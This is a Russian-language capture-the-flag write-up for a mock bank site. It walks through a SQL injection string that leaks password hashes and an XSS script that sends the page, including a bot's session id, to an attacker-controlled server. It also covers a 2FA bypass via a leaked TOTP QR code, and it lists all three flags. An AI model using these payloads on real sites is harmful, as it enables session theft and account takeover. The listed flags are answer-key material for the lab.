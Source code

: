 # web-ebanking


## Условие
Перед вами сайт ЛКЛ-Банка. Над ним работали лучшие программисты и специалисты
по безопасности, так что, вне всякого сомнения, он сделан надёжно и безопасно.

Или нет?

https://здесь.будет.сайт


## Решение
**Шаг 0. Получение исходников**. DirBuster находит путь `/info`, по которому доступны полные исходники сайта

**Шаг 1. SQL-инъекция**. В форме получения сведений о пользователе есть SQL-инъекция. Инъектируем в поле ввода
имени пользователя что-то вроде `" OR username = "user1` и получаем хэш пароля пользователя `user1`, а также узнаём,
что 2FA у него отключена. Аналогично, то же самое делаем для пользователей `smart_bot` и `admin` (у admin'а 2FA включена).
Хэш подбирается только `user1`, и его пароль — `simplicity`. В его личном кабинете получаем первый флаг

**Шаг 2. XSS**. Вбиваем в личном кабинете в строку поиска что-либо: видим, что HTML-код "проверяется smart_bot'ом".
Смотрим исходники — smart_bot тупо загружает полученный им html-код в браузер, подставляя туда также свой id сессии.
Но в html-коде, который вставляется браузер, присутствует и запрос в строке поиска без эскейпинга. Проводим XSS:
вставляем это в строку поиска:

```html
<script>
setTimeout(
    function() {
        let x = new XMLHttpRequest();
        x.open(
            'GET',
            `https://<some_local_http_server>/${encodeURIComponent(document.documentElement.innerHTML)}`,
            true
        );
        x.send();
    },
    1000
)
</script>
```

где `<some_local_http_server>` — это любой подконтрольный вам доступный извне сервер, логгирующий запросы.
Например, можно использовать локальный HTTP-сервер и localtunnel с ключом `--print-requests`. В реквесте к
этому серверу будет закодирован отображаемый документ полностью, включая id сессии smart_bot'а. Подставляем его в куки
и "входим" как smart_bot. В личном кабинете нас ждёт второй флаг и пароль админа

***FIXME:*** если какой-то из игроков разлогинится за smart_bot, то для остальных таск станет нерешаемым

**Шаг 3. Взлом 2FA**. У админа настроен 2FA, так что просто пароля не хватит. Однако если внимательно изучить главную
страницу, можно найти комментарий:
`<!-- static/image-512df359789cee50e97f40d25272c0b84d94459bc8631ce32132a5942f022d77.png -->`

Подставляем URL — видим QR-код. Сканируем — что-то, связанное с `totp`. Значит, это ключ для 2FA. Берём любой
TOTP-клиент (Google Authenticator, Authy, Aegis, etc.), сканируем QR-код, получаем доступ к 2FA. Заходим и видим третий
и последний флаг.


## Флаги
- `LKLCTF{1_of_3__beb19c847ea31f34d62cbbcb7c16dd52}`
- `LKLCTF{2_of_3__eeb328263989e16eb39bf80ed6de790c}`
- `LKLCTF{3_of_3__436410a01b9f7ac7682b278aa9963731}`
